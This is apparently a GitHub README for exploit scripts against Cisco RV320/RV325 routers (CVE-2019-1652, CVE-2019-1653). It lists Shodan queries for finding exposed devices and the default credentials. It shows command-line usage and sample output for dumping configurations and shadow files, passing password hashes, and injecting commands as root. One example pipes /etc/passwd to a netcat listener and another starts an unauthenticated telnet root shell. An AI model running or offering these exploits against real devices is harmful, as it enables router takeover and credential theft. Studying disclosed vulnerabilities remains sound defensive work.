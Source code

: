 # CiscoRV320Dump
CVE-2019-1653/CVE-2019-1652 Exploits For Dumping Cisco RV320 Configurations and getting RCE

Implementations of the CVE-2019-1652 and CVE-2019-1653 exploits disclosed by [Red Team Pentesting GmbH](http://www.redteam-pentesting.de).

I only tested these on an RV320, but according to the [Cisco advisory](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info), the RV325 is also vulnerable.

The following [Shodan](https://shodan.io) queries appear to find them, if you are curious about how many are out there. There seems to be quite a few...  
[ssl:RV320](https://www.shodan.io/search?query=ssl%3ARV320)  
[ssl:RV325](https://www.shodan.io/search?query=ssl%3ARV325)  
[port:161 RV325](https://www.shodan.io/search?query=port%3A161+RV325)  
[port:161 RV320](https://www.shodan.io/search?query=port%3A161+RV320)  

The vulnerabilities allow for the following:
* Dumping (Plaintext) Configuration File! (includes hashes for the webUI!)
* Dumping (Encrypted) Diagnostic/Debug Files! (including config, and the /etc and /var directories)
* Decrypting the encrypted Diagnostic/Debug Files! (yes, you get /etc/shadow!)
* Post-Authentication Remote Command Injection as root in the webUI!

As an aside, the default creds are cisco:cisco.

## Exploits...

### Config Dumper Exploit...
For the [configuration dump exploit](https://seclists.org/fulldisclosure/2019/Jan/52), just set target, port, ssl on/off, and output directory. It will dump the configuration to there. 
```
$ python dump_config.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/config.exp
{*} We seem to have found a valid config! Writing to output/x.x.x.x_8443.conf
$
```

### Debug Data Dumper Exploit...
For the [debug data dumping exploit](https://seclists.org/fulldisclosure/2019/Jan/53), it is the same routine, but the dumped data is larger and encrypted. 
You will want to decrypt this using the provided "decrypt.sh" script, or manually using `openssl`. This will give you a tar file.
The debug output not only gets you the config, but also backups of `/etc` and `/var`, and yes, the `/etc/shadow/` file is present.
I'll eventually rewrite the decryption script in Python, but this was a quick kludge.
```
$ python dump_debug.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/export_debug_msg.exp
{*} We seem to have found a valid encrypted config! Writing to output/x.x.x.x_8443.enc
$ ./decrypt.sh output/x.x.x.x_8443.enc 
Cisco Encrypted Debug Data Decryption Script!
{+} Decrypting output/x.x.x.x_8443.enc
{+} Plaintext should be at output/x.x.x.x_8443.enc.decrypted.tar.gz...
$ 
```

Using the creds you get from these (hashed) you can then exploit [CVE-2019-1652](https://seclists.org/fulldisclosure/2019/Jan/54) to execute commands on the device. 

A few notes on the "hashing" of the password, before we go any further. On these, in the config file, you will find a variable named PASSWD followed by an md5 hash. 
This md5 hash is `md5($password.$auth_key)`, where the auth_key is a static value you can find by doing a `GET /` and parsing. 
There is a seemingly common one that I hardcoded into the RCE exploit as a fallback incase the page parser bullshit regex fails.

### Post-Auth RCE Exploit
CVE-2019-1652 outlines a trivial shell command injection vulnerability, which requires authentication. `exec_cmd.py` implements this, assuming you have valid login creds. "cisco:cisco" is the default, but you could also crack some hashes.

The command injection is blind, so you won't get any output. The environment is an incredibly limited Busybox setup with a crippled netcat, and the boxes are mips64, so I didn't bother writing a reverse-shell exploit this time. You can, however, get command output by doing stuff like `cat /etc/passwd | nc HOST PORT` and having a listener running, or whatever. 

You can also inject a command like `telnetd -l /bin/sh -p 1337` and connect to the resultant telnet service, which will serve you up a nice unauthenticated root shell.

Example run of the exploit below:  
```
$ python exec_cmd.py -t x.x.x.x -s -p 8443 -U cisco -P cisco -c "cat /etc/passwd | nc x.x.x.x 1337"
{+} Sending request to https://x.x.x.x:8443/ to extract auth key...
{*} Got auth_key value: 1964300002
{+} Login Successful, we can proceed!
{+} Ok, now to run your command: cat /etc/passwd | nc x.x.x.x 1337
{+} We don't get output so... Yeah. Shits blind.
$
# on listener...
$ nc -lp 1337
root:x:0:0:root:/:/bin/admin
nobody:x:0:0:nobody:/nonexistent:/bin/false
_lldpd:x:501:501:_lldpd:/:/bin/sh
cisco:x:0:0:root:/bin:/bin/admin

$
```

### "Full Package" Exploit
So because Cisco, you can actually pass the hash you extract and get a logged in session. So we wrote an exploit that extracts the hash and passes it.
This is called `easy_access.py`. Because the path of the CGI binaries contains a folder named "EasyAccess".

Example run of EasyAccess below...

```
$ python easy_access.py -t x.x.x.x -p 8443 -s -c "telnetd -l /bin/sh -p 1337"
{+} Gonna go grab us a config file...
{+} Sending request to https://x.x.x.x:8443/cgi-bin/config.exp
{*} We seem to have found a valid config!
{+} Extracting Creds...
{+} Got user: cisco
{+} Got password (hash): [redacted]
{+} Sending request to https://x.x.x.x:8443/ to extract auth key...
{*} Got auth_key value: 1964300002
{+} Login Successful, we can proceed!
{+} Ok, now to run your command: telnetd -l /bin/sh -p 1337
{+} We don't get output so... Yeah. Shits blind.

$ telnet x.x.x.x 1337
<snip>
BusyBox v1.2.1 (2017.10.30-07:33+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

~ # id
uid=0(root) gid=99(nobody)
~ # 
```

Happy 0wning kids. 
